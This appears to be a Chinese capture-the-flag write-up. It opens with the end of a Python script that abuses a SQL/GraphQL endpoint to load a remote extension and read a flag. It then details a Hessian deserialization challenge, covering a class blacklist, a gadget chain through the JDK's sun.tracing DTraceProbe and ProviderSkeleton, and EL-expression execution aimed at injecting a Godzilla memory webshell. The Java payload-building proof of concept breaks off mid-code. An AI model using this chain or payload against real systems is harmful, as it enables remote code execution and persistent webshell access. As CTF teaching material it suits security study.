    run_sql(s, connection_id, context_id, f"load '{remote_path}'", ignore_error=True)

    print("[*] Waiting 3 seconds for SUID find command to finish...")
    time.sleep(3)

    # ==========================================
    # 5. 读取结果
    # ==========================================
    print("[*] Step 5: Reading /tmp/result...")
    result_json = run_sql(s, connection_id, context_id, "SELECT * FROM read_text('/tmp/result')")

    if result_json and 'data' in result_json:
        try:
            # 尝试提取 flag
            rows = result_json['data']['result']['results'][0]['resultSet']['rowsWithMetaData']
            if rows:
                content = rows[0]['data'][1] # DuckDB read_text 第二列通常是 content
                print("\n" + "#"*60)
                print("FLAG FOUND:")
                print("#"*60)
                print(content.strip())
                print("#"*60)
            else:
                print("[-] /tmp/result is empty.")
        except Exception as e:
            print(f"[-] Structure error: {e}")
            print(json.dumps(result_json, indent=2))
    else:
        print("[-] No data returned.")

def run_sql(session, connection_id, context_id, sql_query, ignore_error=False):
    """
    执行SQL并轮询，处理 NullValue 错误
    """
    mutation_execute = {
        "query": "\n    mutation asyncSqlExecuteQuery($projectId: ID!, $connectionId: ID!, $contextId: ID!, $query: String!, $resultId: ID, $filter: SQLDataFilter, $dataFormat: ResultDataFormat, $readLogs: Boolean, $isInteractive: Boolean) {\n  taskInfo: asyncSqlExecuteQuery(\n    projectId: $projectId\n    connectionId: $connectionId\n    contextId: $contextId\n    sql: $query\n    resultId: $resultId\n    filter: $filter\n    dataFormat: $dataFormat\n    readLogs: $readLogs\n    isInteractive: $isInteractive\n  ) {\n    id\n    running\n  }\n}\n    ",
        "variables": {
            "projectId": "anonymous",
            "connectionId": connection_id,
            "contextId": context_id, # 必须使用 Step 2.5 获取的 ID
            "query": sql_query,
            "filter": {"offset": 0, "limit": 200, "constraints": []},
            "dataFormat": "resultset",
            "readLogs": False,
            "isInteractive": True
        },
        "operationName": "asyncSqlExecuteQuery"
    }

    r = session.post(GQL_API, json=mutation_execute, headers=HEADERS)
    try:
        task_id = r.json()['data']['taskInfo']['id']
    except:
        if not ignore_error: print(f"[-] Exec Init Failed: {r.text}")
        return None

    mutation_get_result = {
        "query": "\n    mutation getSqlExecuteTaskResults($taskId: ID!) {\n  result: asyncSqlExecuteResults(taskId: $taskId) {\n    statusMessage\n    results {\n      resultSet {\n        rowsWithMetaData {\n          data\n        }\n      }\n    }\n  }\n}\n    ",
        "variables": {"taskId": task_id},
        "operationName": "getSqlExecuteTaskResults"
    }

    # 轮询 10 次
    for i in range(10):
        r = session.post(GQL_API, json=mutation_get_result, headers=HEADERS)
        res_json = r.json()

        # 处理 GraphQL Errors
        if 'errors' in res_json:
            err_msg = res_json['errors'][0].get('message', '')

            # 如果是 LOAD 命令且报错，通常是预期的 (不是有效扩展)
            if ignore_error: return None

            # 如果是 NullValue 错误，说明任务还没准备好，等待并重试
            if "NullValueInNonNullableField" in str(res_json):
                time.sleep(0.5)
                continue

            # 其他错误
            print(f"[-] SQL Error: {err_msg}")
            return None

        # 如果拿到了结果
        if res_json.get('data', {}).get('result'):
            return res_json

        time.sleep(0.5)

    return None

if __name__ == "__main__":
    main()
```


## Hessian-Labyrinth

围绕 Hessian 黑名单、动态代理与 JDK 内部 `sun.tracing` 链展开。

### 漏洞分析

使用 `JADX` 反编译 JAR 包后，我们发现 `ChallengeController` 中存在一个 Hessian 反序列化入口。该入口显式开启了 `allowNonSerializable(true)`，允许反序列化未继承 `Serializable` 接口的类别。然而，底层依赖的 `hessian-lite` 库存在一个严格的反序列化黑名单。

```java
package org.example.labyrinth.controller;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: Labyrinth-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/org/example/labyrinth/controller/ChallengeController.class */
public class ChallengeController {
    @PostMapping({"/deserialize"})
    public String hessianDeserialize(HttpServletRequest request) {
        try {
            InputStream is = request.getInputStream();
            Hessian2Input input = new Hessian2Input(is);
            input.getSerializerFactory().setAllowNonSerializable(true);
            input.readObject();
            return "success";
        } catch (Exception e) {
            e.printStackTrace();
            return "Error: " + e.getMessage();
        }
    }
}
```

题目配置中包含了一个庞大的黑名单，封锁了包括 `bsh`, `clojure`, `org.apache.commons.beanutils`, `org.springframework.aop` 等在内的常见利用链。

```java
#
#
#   Licensed to the Apache Software Foundation (ASF) under one or more
#   contributor license agreements.  See the NOTICE file distributed with
#   this work for additional information regarding copyright ownership.
#   The ASF licenses this file to You under the Apache License, Version 2.0
#   (the "License"); you may not use this file except in compliance with
#   the License.  You may obtain a copy of the License at
#
#       http://www.apache.org/licenses/LICENSE-2.0
#
#   Unless required by applicable law or agreed to in writing, software
#   distributed under the License is distributed on an "AS IS" BASIS,
#   WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
#   See the License for the specific language governing permissions and
#   limitations under the License.
#
#
bsh.
ch.qos.logback.core.db.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.config.types.
com.caucho.hessian.test.
com.caucho.naming.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.v2.c3p0.
com.mysql.jdbc.util.
com.rometools.rome.feed.
com.sun.corba.se.impl.
com.sun.corba.se.spi.orbutil.
com.sun.jndi.rmi.
com.sun.jndi.toolkit.
com.sun.org.apache.bcel.internal.
com.sun.org.apache.xalan.internal.
com.sun.rowset.
com.sun.xml.internal.bind.v2.
com.taobao.vipserver.commons.collections.functors.
groovy.lang.
java.awt.
java.beans.
java.lang.ProcessBuilder
java.lang.Runtime
java.rmi.server.
java.security.
java.util.ServiceLoader
java.util.StringTokenizer
javassist.bytecode.annotation.
javassist.tools.web.Viewer
javassist.util.proxy.
javax.imageio.
javax.imageio.spi.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.script.
javax.sound.sampled.
javax.swing.
javax.xml.transform.
net.bytebuddy.dynamic.loading.
oracle.jdbc.connector.
oracle.jdbc.pool.
org.apache.aries.transaction.jms.
org.apache.bcel.util.
org.apache.carbondata.core.scan.expression.
org.apache.commons.beanutils.
org.apache.commons.codec.binary.
org.apache.commons.collections.functors.
org.apache.commons.collections4.functors.
org.apache.commons.codec.
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.datasources.
org.apache.commons.dbcp2.datasources.
org.apache.commons.fileupload.disk.
org.apache.ibatis.executor.loader.
org.apache.ibatis.javassist.bytecode.
org.apache.ibatis.javassist.tools.
org.apache.ibatis.javassist.util.
org.apache.ignite.cache.
org.apache.log.output.db.
org.apache.log4j.receivers.db.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.dbcp.
org.apache.velocity.runtime.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.xsltc.trax.
org.apache.xbean.naming.context.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.
org.codehaus.groovy.runtime.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.dom4j.
org.eclipse.jetty.util.log.
org.geotools.filter.
org.h2.value.
org.hibernate.tuple.component.
org.hibernate.type.
org.jboss.ejb3.
org.jboss.proxy.ejb.
org.jboss.resteasy.plugins.server.resourcefactory.
org.jboss.weld.interceptor.builder.
org.junit.
org.mockito.internal.creation.cglib.
org.mortbay.log.
org.mockito.
org.thymeleaf.
org.quartz.
org.springframework.aop.aspectj.
org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler
org.springframework.beans.factory.
org.springframework.expression.spel.
org.springframework.jndi.
org.springframework.orm.
org.springframework.transaction.
org.yaml.snakeyaml.tokens.
ognl.
pstore.shaded.org.apache.commons.collections.
sun.print.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.
```

### CustomProxy 与动态代理

从正面直接绕过黑名单的难度极大。但是，配合题目提供的 Gadget 类别 `CustomProxy` 以及 JDK 内部的机制，我们可以实现绕过。虽然 Hessian 通常难以成功反序列化标准代理类，但此处的配置允许我们利用这一点。
题目提供了一个 `CustomProxy` 类别，它继承自 `Proxy` 并实现了 `Comparable` 接口。其关键在于 `compareTo` 方法会将调用转发给内部的 `InvocationHandler`。

```java
package org.example.labyrinth.model;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

/* loaded from: Labyrinth-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/org/example/labyrinth/model/CustomProxy.class */
public class CustomProxy extends Proxy implements Comparable<Object> {
    private Method m3;

    public CustomProxy(InvocationHandler h) {
        super(h);
    }

    public CustomProxy(InvocationHandler h, Method m) {
        super(h);
        this.m3 = m;
    }

    @Override // java.lang.Comparable
    public int compareTo(Object o) {
        try {
            if ("compareTo".equals(this.m3.getName())) {
                return ((Integer) ((Proxy) this).h.invoke(this, this.m3, new Object[]{o})).intValue();
            }
            throw new UnsupportedOperationException("The bound method m3 is not 'compareTo', but: " + this.m3.getName());
        } catch (Error | RuntimeException e) {
            throw e;
        } catch (Throwable e2) {
            throw new RuntimeException(e2);
        }
    }
}
```

### 寻找 JDK 利用链

我们转向 JDK 的原生依赖进行挖掘，搜索反射调用或命令执行等危险方法。我们在 `sun.tracing` 包中发现了一个强大的利用链，主要涉及 `sun.tracing.dtrace.DTraceProbe` 和 `sun.tracing.ProviderSkeleton`。
`sun.tracing.dtrace.DTraceProbe` 类别中有一个名为 `uncheckedTrigger` 的方法。该方法存在任意类别、任意公开方法的反射执行漏洞：

```java
/*
 * Copyright (c) 2008, Oracle and/or its affiliates. All rights reserved.
 * DO NOT ALTER OR REMOVE COPYRIGHT NOTICES OR THIS FILE HEADER.
 *
 * This code is free software; you can redistribute it and/or modify it
 * under the terms of the GNU General Public License version 2 only, as
 * published by the Free Software Foundation.  Oracle designates this
 * particular file as subject to the "Classpath" exception as provided
 * by Oracle in the LICENSE file that accompanied this code.
 *
 * This code is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or
 * FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License
 * version 2 for more details (a copy is included in the LICENSE file that
 * accompanied this code).
 *
 * You should have received a copy of the GNU General Public License version
 * 2 along with this work; if not, write to the Free Software Foundation,
 * Inc., 51 Franklin St, Fifth Floor, Boston, MA 02110-1301 USA.
 *
 * Please contact Oracle, 500 Oracle Parkway, Redwood Shores, CA 94065 USA
 * or visit www.oracle.com if you need additional information or have any
 * questions.
 */

package sun.tracing.dtrace;

import java.lang.reflect.Method;
import java.lang.reflect.InvocationTargetException;

import sun.tracing.ProbeSkeleton;

class DTraceProbe extends ProbeSkeleton {
    private Object proxy;
    private Method declared_method;
    private Method implementing_method;

    DTraceProbe(Object proxy, Method m) {
        super(m.getParameterTypes());
        this.proxy = proxy;
        this.declared_method = m;
        try {
            // The JVM will override the proxy method's implementation with
            // a version that will invoke the probe.
            this.implementing_method =  proxy.getClass().getMethod(
                m.getName(), m.getParameterTypes());
        } catch (NoSuchMethodException e) {
            throw new RuntimeException("Internal error, wrong proxy class");
        }
    }

    public boolean isEnabled() {
        return JVM.isEnabled(implementing_method);
    }

    public void uncheckedTrigger(Object[] args) {
        try {
            implementing_method.invoke(proxy, args);
        } catch (IllegalAccessException e) {
            assert false;
        } catch (InvocationTargetException e) {
            assert false;
        }
    }

    String getProbeName() {
        return DTraceProvider.getProbeName(declared_method);
    }

    String getFunctionName() {
        return DTraceProvider.getFunctionName(declared_method);
    }

    Method getMethod() {
        return implementing_method;
    }

    Class<?>[] getParameterTypes() {
        return this.parameters;
    }
}


```

### 使用 Tabby 查找调用路径

利用静态分析工具 **Tabby**，我们限定 Source 和 Sink，并在查询中过滤掉黑名单中的类别，挖掘出了一条可行路径。

```neo4j

WITH [
    "bsh.",
    "ch.qos.logback.core.db.",
    "clojure.",
    "com.alibaba.citrus.springext.support.parser.",
    "com.alibaba.citrus.springext.util.SpringExtUtil.",
    "com.alibaba.druid.pool.",
    "com.alibaba.hotcode.internal.org.apache.commons.collections.functors.",
    "com.alipay.custrelation.service.model.redress.",
    "com.alipay.oceanbase.obproxy.druid.pool.",
    "com.caucho.config.types.",
    "com.caucho.hessian.test.",
    "com.caucho.naming.",
    "com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.",
    "com.ibm.xltxe.rnm1.xtq.bcel.util.",
    "com.mchange.v2.c3p0.",
    "com.mysql.jdbc.util.",
    "com.rometools.rome.feed.",
    "com.sun.corba.se.impl.",
    "com.sun.corba.se.spi.orbutil.",
    "com.sun.jndi.rmi.",
    "com.sun.jndi.toolkit.",
    "com.sun.org.apache.bcel.internal.",
    "com.sun.org.apache.xalan.internal.",
    "com.sun.rowset.",
    "com.sun.xml.internal.bind.v2.",
    "com.taobao.vipserver.commons.collections.functors.",
    "groovy.lang.",
    "java.awt.",
    "java.beans.",
    "java.lang.ProcessBuilder",
    "java.lang.Runtime",
    "java.rmi.server.",
    "java.security.",
    "java.util.ServiceLoader",
    "java.util.StringTokenizer",
    "javassist.bytecode.annotation.",
    "javassist.tools.web.Viewer",
    "javassist.util.proxy.",
    "javax.imageio.",
    "javax.imageio.spi.",
    "javax.management.",
    "javax.media.jai.remote.",
    "javax.naming.",
    "javax.script.",
    "javax.sound.sampled.",
    "javax.swing.",
    "javax.xml.transform.",
    "net.bytebuddy.dynamic.loading.",
    "oracle.jdbc.connector.",
    "oracle.jdbc.pool.",
    "org.apache.aries.transaction.jms.",
    "org.apache.bcel.util.",
    "org.apache.carbondata.core.scan.expression.",
    "org.apache.commons.beanutils.",
    "org.apache.commons.codec.binary.",
    "org.apache.commons.collections.functors.",
    "org.apache.commons.collections4.functors.",
    "org.apache.commons.codec.",
    "org.apache.commons.configuration.",
    "org.apache.commons.configuration2.",
    "org.apache.commons.dbcp.datasources.",
    "org.apache.commons.dbcp2.datasources.",
    "org.apache.commons.fileupload.disk.",
    "org.apache.ibatis.executor.loader.",
    "org.apache.ibatis.javassist.bytecode.",
    "org.apache.ibatis.javassist.tools.",
    "org.apache.ibatis.javassist.util.",
    "org.apache.ignite.cache.",
    "org.apache.log.output.db.",
    "org.apache.log4j.receivers.db.",
    "org.apache.myfaces.view.facelets.el.",
    "org.apache.openjpa.ee.",
    "org.apache.shiro.",
    "org.apache.tomcat.dbcp.",
    "org.apache.velocity.runtime.",
    "org.apache.velocity.",
    "org.apache.wicket.util.",
    "org.apache.xalan.xsltc.trax.",
    "org.apache.xbean.naming.context.",
    "org.apache.xpath.",
    "org.apache.zookeeper.",
    "org.aspectj.",
    "org.codehaus.groovy.runtime.",
    "org.datanucleus.store.rdbms.datasource.dbcp.datasources.",
    "org.dom4j.",
    "org.eclipse.jetty.util.log.",
    "org.geotools.filter.",
    "org.h2.value.",
    "org.hibernate.tuple.component.",
    "org.hibernate.type.",
    "org.jboss.ejb3.",
    "org.jboss.proxy.ejb.",
    "org.jboss.resteasy.plugins.server.resourcefactory.",
    "org.jboss.weld.interceptor.builder.",
    "org.junit.",
    "org.mockito.internal.creation.cglib.",
    "org.mortbay.log.",
    "org.mockito.",
    "org.thymeleaf.",
    "org.quartz.",
    "org.springframework.aop.aspectj.",
    "org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler",
    "org.springframework.beans.factory.",
    "org.springframework.expression.spel.",
    "org.springframework.jndi.",
    "org.springframework.orm.",
    "org.springframework.transaction.",
    "org.yaml.snakeyaml.tokens.",
    "ognl.",
    "pstore.shaded.org.apache.commons.collections.",
    "sun.print.",
    "sun.rmi.server.",
    "sun.rmi.transport.",
    "weblogic.ejb20.internal.",
    "weblogic.jms.common."
] AS blacklist

match (source:Method ) // 限定source
match (sink:Method {NAME:"uncheckedTrigger",CLASSNAME:"sun.tracing.dtrace.DTraceProbe"}) // 限定sink
call apoc.algo.allSimplePaths(source, sink, "CALL>|ALIAS>", 8) yield path
WHERE none(n IN nodes(path) WHERE
    // 检查节点是否属于黑名单中的任何一项
    ANY(b IN blacklist WHERE n.CLASSNAME STARTS WITH b)
)
return path limit 1
```



这条利用链的核心在于 JDK 内部的 `sun.tracing` 机制。攻击者可以构造一个恶意的 `ProviderSkeleton`（作为 `InvocationHandler`），在反序列化后通过代理机制触发任意方法执行。
`sun.tracing.ProviderSkeleton` 是一个实现了 `InvocationHandler` 的抽象类别。当代理对象的方法被调用时，会进入 `invoke` 方法。
`triggerProbe` 方法会从内部的 HashMap (`probes`) 中获取对应的 `ProbeSkeleton`，并调用其 `uncheckedTrigger` 方法。

```java
/*
 * Copyright (c) 2008, 2013, Oracle and/or its affiliates. All rights reserved.
 * DO NOT ALTER OR REMOVE COPYRIGHT NOTICES OR THIS FILE HEADER.
 *
 * This code is free software; you can redistribute it and/or modify it
 * under the terms of the GNU General Public License version 2 only, as
 * published by the Free Software Foundation.  Oracle designates this
 * particular file as subject to the "Classpath" exception as provided
 * by Oracle in the LICENSE file that accompanied this code.
 *
 * This code is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or
 * FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License
 * version 2 for more details (a copy is included in the LICENSE file that
 * accompanied this code).
 *
 * You should have received a copy of the GNU General Public License version
 * 2 along with this work; if not, write to the Free Software Foundation,
 * Inc., 51 Franklin St, Fifth Floor, Boston, MA 02110-1301 USA.
 *
 * Please contact Oracle, 500 Oracle Parkway, Redwood Shores, CA 94065 USA
 * or visit www.oracle.com if you need additional information or have any
 * questions.
 */

package sun.tracing;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.AnnotatedElement;
import java.lang.annotation.Annotation;
import java.util.HashMap;
import java.security.AccessController;
import java.security.PrivilegedAction;

import com.sun.tracing.Provider;
import com.sun.tracing.Probe;
import com.sun.tracing.ProviderName;

/**
 * Provides a common code for implementation of {@code Provider} classes.
 *
 * Each tracing subsystem needs to provide three classes, a factory
 * (derived from {@code ProviderFactory}, a provider (a subclass of
 * {@code Provider}, and a probe type (subclass of {@code ProbeSkeleton}).
 *
 * The factory object takes a user-defined interface and provides an
 * implementation of it whose method calls will trigger probes in the
 * tracing framework.
 *
 * The framework's provider class, and its instances, are not seen by the
 * user at all -- they usually sit in the background and receive and dispatch
 * the calls to the user's provider interface.  The {@code ProviderSkeleton}
 * class provides almost all of the implementation needed by a framework
 * provider.  Framework providers must only provide a constructor and
 * disposal method, and implement the {@code createProbe} method to create
 * an appropriate {@code ProbeSkeleton} subclass.
 *
 * The framework's probe class provides the implementation of the two
 * probe methods, {@code isEnabled()} and {@code uncheckedTrigger()}.  Both are
 * framework-dependent implementations.
 *
 * @since 1.7
 */

public abstract class ProviderSkeleton implements InvocationHandler, Provider {

    protected boolean active; // set to false after dispose() is called
    protected Class<? extends Provider> providerType; // user's interface
    protected HashMap<Method, ProbeSkeleton> probes; // methods to probes


    /**
     * Creates a framework-specific probe subtype.
     *
     * This method is implemented by the framework's provider and returns
     * framework-specific probes for a method.
     *
     * @param method A method in the user's interface
     * @return a subclass of ProbeSkeleton for the particular framework.
     */
    protected abstract ProbeSkeleton createProbe(Method method);

    /**
     * Initializes the provider.
     *
     * @param type the user's interface
     */
    protected ProviderSkeleton(Class<? extends Provider> type) {
        this.active = false; // in case of some error during initialization
        this.providerType = type;
        this.probes = new HashMap<Method,ProbeSkeleton>();
    }

    /**
     * Post-constructor initialization routine.
     *
     * Subclass instances must be initialized before they can create probes.
     * It is up to the factory implementations to call this after construction.
     */
    public void init() {
        Method[] methods = AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
            public Method[] run() {
                return providerType.getDeclaredMethods();
            }
        });

        for (Method m : methods) {
            if ( m.getReturnType() != Void.TYPE ) {
                throw new IllegalArgumentException(
                   "Return value of method is not void");
            } else {
                probes.put(m, createProbe(m));
            }
        }
        this.active = true;
    }

    /**
     * Magic routine which creates an implementation of the user's interface.
     *
     * This method creates the instance of the user's interface which is
     * passed back to the user.  Every call upon that interface will be
     * redirected to the {@code invoke()} method of this class (until
     * overridden by the VM).
     *
     * @return an implementation of the user's interface
     */
    @SuppressWarnings("unchecked")
    public <T extends Provider> T newProxyInstance() {
        final InvocationHandler ih = this;
        return AccessController.doPrivileged(new PrivilegedAction<T>() {
            public T run() {
               return (T)Proxy.newProxyInstance(providerType.getClassLoader(),
                   new Class<?>[] { providerType }, ih);
            }});
    }

    /**
     * Triggers a framework probe when a user interface method is called.
     *
     * This method dispatches a user interface method call to the appropriate
     * probe associated with this framework.
     *
     * If the invoked method is not a user-defined member of the interface,
     * then it is a member of {@code Provider} or {@code Object} and we
     * invoke the method directly.
     *
     * @param proxy the instance whose method was invoked
     * @param method the method that was called
     * @param args the arguments passed in the call.
     * @return always null, if the method is a user-defined probe
     */
    public Object invoke(Object proxy, Method method, Object[] args) {
        Class declaringClass = method.getDeclaringClass();
        // not a provider subtype's own method
        if (declaringClass != providerType) {
            try {
                // delegate only to methods declared by
                // com.sun.tracing.Provider or java.lang.Object
                if (declaringClass == Provider.class ||
                    declaringClass == Object.class) {
                    return method.invoke(this, args);
                } else {
                    // assert false : "this should never happen"
                    //    reaching here would indicate a breach
                    //    in security in the higher layers
                    throw new SecurityException();
                }
            } catch (IllegalAccessException e) {
                assert false;
            } catch (InvocationTargetException e) {
                assert false;
            }
        } else {
            triggerProbe(method, args);
        }
        return null;
    }

    /**
     * Direct accessor for {@code Probe} objects.
     *
     * @param m the method corresponding to a probe
     * @return the method associated probe object, or null
     */
    public Probe getProbe(Method m) {
        return active ? probes.get(m) : null;
    }

    /**
     * Default provider disposal method.
     *
     * This is overridden in subclasses as needed.
     */
    public void dispose() {
        active = false;
        probes.clear();
    }

    /**
     * Gets the user-specified provider name for the user's interface.
     *
     * If the user's interface has a {@ProviderName} annotation, that value
     * is used.  Otherwise we use the simple name of the user interface's class.
     * @return the provider name
     */
    protected String getProviderName() {
        return getAnnotationString(
                providerType, ProviderName.class, providerType.getSimpleName());
    }

    /**
     * Utility method for getting a string value from an annotation.
     *
     * Used for getting a string value from an annotation with a 'value' method.
     *
     * @param element the element that was annotated, either a class or method
     * @param annotation the class of the annotation we're interested in
     * @param defaultValue the value to return if the annotation doesn't
     * exist, doesn't have a "value", or the value is empty.
     */
    protected static String getAnnotationString(
            AnnotatedElement element, Class<? extends Annotation> annotation,
            String defaultValue) {
        String ret = (String)getAnnotationValue(
                element, annotation, "value", defaultValue);
        return ret.isEmpty() ? defaultValue : ret;
    }

    /**
     * Utility method for calling an arbitrary method in an annotation.
     *
     * @param element the element that was annotated, either a class or method
     * @param annotation the class of the annotation we're interested in
     * @param methodName the name of the method in the annotation we wish
     * to call.
     * @param defaultValue the value to return if the annotation doesn't
     * exist, or we couldn't invoke the method for some reason.
     * @return the result of calling the annotation method, or the default.
     */
    protected static Object getAnnotationValue(
            AnnotatedElement element, Class<? extends Annotation> annotation,
            String methodName, Object defaultValue) {
        Object ret = defaultValue;
        try {
            Method m = annotation.getMethod(methodName);
            Annotation a = element.getAnnotation(annotation);
            ret = m.invoke(a);
        } catch (NoSuchMethodException e) {
            assert false;
        } catch (IllegalAccessException e) {
            assert false;
        } catch (InvocationTargetException e) {
            assert false;
        } catch (NullPointerException e) {
            assert false;
        }
        return ret;
    }

    protected void triggerProbe(Method method, Object[] args) {
        if (active) {
            ProbeSkeleton p = probes.get(method);
            if (p != null) {
                // Skips argument check -- already done by javac
                p.uncheckedTrigger(args);
            }
        }
    }
}

```

#### 总结分析图

```text
[Hessian 反序列化流]
       |
       v
[触发点 (Trigger)]
(例如: 某对象调用了代理对象的 toString/hashCode/任意接口方法)
       |
       v
[JDK Dynamic Proxy]
       |
       v
[Handler: sun.tracing.ProviderSkeleton (NullProvider)]
   -> invoke(proxy, method, args)
       |
       v
   -> triggerProbe(method, args)
       | 从 probes Map 中找到恶意 Probe
       v
[Sink: sun.tracing.dtrace.DTraceProbe]
   -> uncheckedTrigger(args)
       |
       v
   -> implementing_method.invoke(proxy, args)
       |
       v
[任意代码执行 (RCE)]
```

### 通过 EL 表达式执行

虽然我们获得了反射执行能力，但由于 `TemplatesImpl` 等常见利用类别在黑名单中，我们需要寻找替代方案。经检查，`javax.el.ELProcessor` 并不在黑名单中。
通过 EL 表达式调用 JavaScript 引擎（Nashorn 或 Rhino），进而注入 **Godzilla（哥斯拉）内存马**。

```java
package poc;


import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.example.labyrinth.model.CustomProxy;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;
import java.util.TreeMap;

/**
 * Hessian Deserialization PoC using sun.tracing.dtrace.DTraceProbe
 * <p>
 * Targets: JDK 7, JDK 8 (before module encapsulation)
 * Dependencies: hessian-4.0.xx.jar
 */
public class HessianSunTracingPoc {

    public static void main(String[] args) throws Exception {
        System.out.println("[*] Constructing malicious payload...");


        Object targetTarget = new javax.el.ELProcessor();
        Method targetMethod = targetTarget.getClass().getDeclaredMethod("eval", new Class[]{String.class});

        // 4. 获取字段的值
        // 因为 m3 是 static 静态变量，所以在 get() 方法中传入 null 即可
        Method m3Value = Comparable.class.getDeclaredMethod("compareTo", Object.class);


        Class<?> probeClass = Class.forName("sun.tracing.dtrace.DTraceProbe");
        Object probe = createWithoutConstructor(probeClass);

//         注入字段
//         proxy: 实际执行方法的对象 (Runtime)
        setField(probe, "proxy", targetTarget);
//         implementing_method: 实际执行的方法 (exec)
        setField(probe, "implementing_method", targetMethod);
//         declared_method: 接口定义的方法 (compareTo) - 这里的逻辑是获取 ProbeName 用的，影响不大，但为了稳健最好设置

        // 3. 构造恶意的 ProviderSkeleton (InvocationHandler)
        // ProviderSkeleton 是抽象类，我们需要一个具体的子类。
        // sun.tracing.print.PrintStreamProviderFactory$PrintStreamProvider 是 rt.jar 中存在的具体子类
        Class<?> providerClass = Class.forName("sun.tracing.NullProvider");
        Object handler = createWithoutConstructor(providerClass);

        // 注入字段
        setField(handler, "active", true); // 必须激活
        setField(handler, "providerType", Comparable.class); // 代理的接口类型

        // 准备 probes Map
        HashMap<Method, Object> probes = new HashMap<>();
        probes.put(m3Value, probe); // 当调用 compareTo 时，触发 probe
        setField(handler, "probes", probes);

        // 4. 创建动态代理 (Entry Point)
        // 这个 Proxy 对象就是我们要序列化的核心对象
        CustomProxy proxy = new CustomProxy((InvocationHandler) handler, m3Value);
        TreeMap<Object, Object> m = new TreeMap<>();
        setField(m, "size", 2);
        setField(m, "modCount", 2);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
